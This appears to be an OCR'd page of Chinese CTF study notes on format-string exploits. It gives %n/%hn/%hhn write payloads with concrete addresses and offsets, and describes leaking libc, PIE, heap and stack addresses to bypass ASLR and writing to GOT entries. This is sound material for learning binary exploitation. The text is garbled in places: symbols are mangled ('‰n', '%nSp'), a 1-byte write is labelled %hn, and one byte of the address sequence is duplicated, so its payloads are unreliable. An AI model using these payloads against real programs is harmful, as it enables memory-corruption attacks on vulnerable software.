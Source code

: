 - %100c%n -> 写入 4bytes \x64\x00\x00\x00
- %100c%hn -> 写入 2bytes \x64\x00\
- %100c%hhn -> 写入 1bytes \x64

```
%10$hhn%11$hhn%12$hhn%13$hhn  => 0x10101010
```

任意地址写 - 和任意地址读的方法一样不过我们把‰5 换成了%n

```
n：一次写入4个字节
hn：一次写入2个字节
%hn：一次写入1个字节
```

但是‰n 修改内容最大的缺点就是：我们要将数值修改为多少，就要输入多少长度的数据
比如同样偏移是 7，但是我们需要将 0x08048010 地址的内容修改为 50，那么我们这样写：

`\x10\x80\x04\x08%46c%7$n`

但是我们需要将 0×08048010 地址的内容修改为 0×10203040，那么我们是不是需要输入 0x10203040 个字符串呢？

```
\x00\x80\x04\x08
\x01\x80\x04\x08
\x03\x80\x04\x08
\x03\x80\x04\x08
%48c%7$hhn
%240c%8$hhn
%240c%9$hhn
%240c%10$hhn
```

#### fmt - exploit

- If format string is stored on the stack：

  - 将 address 放置放 payload，得知 address 位於第 n 個参数，用%n$去 refenrence 它。

- %nSp->leak libc，PIE，Heap，Stack:bypass ASLR

- %n$n->write value

- read &write everywhere

如果 fomrat string 在 stack 上。那可以把 address 放在 format string 上。 用%s leak, format sting 后面+个 8bytes 的 printf 的 GOT。再算好 address 位置。

%100c%n%100c%n
第一个%n 会写 100，第二个%n 会写 200，只能从小往大排列好再写。

pwn_02_fmt_write.py

當 format string 不在 stack 上，如位於 global.bss

無法利用 fmt payload 來放 address

尋找 stack 上有利残留值

pointer， address
